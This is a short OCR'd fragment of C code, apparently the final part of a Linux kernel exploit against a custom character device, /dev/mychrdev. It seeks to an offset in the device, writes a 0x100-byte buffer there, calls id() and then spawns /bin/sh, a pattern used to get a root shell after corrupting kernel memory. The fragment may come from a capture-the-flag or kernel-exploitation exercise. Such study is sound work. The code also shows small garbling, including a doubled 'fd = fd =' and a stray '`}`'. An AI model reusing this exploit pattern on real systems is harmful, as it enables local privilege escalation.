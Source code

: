 ```
    fd = fd = open("/dev/mychrdev", O_WRONLY);
    n = lseek(fd, p_pos, 0);
    // printf("%d\n", n);
    n = write(fd, buf, 0x100);
    // printf("%d\n\n", n);
    close(fd);

    id();
    // close(fd);

    system("/bin/sh");

    return 0;
`}`
```
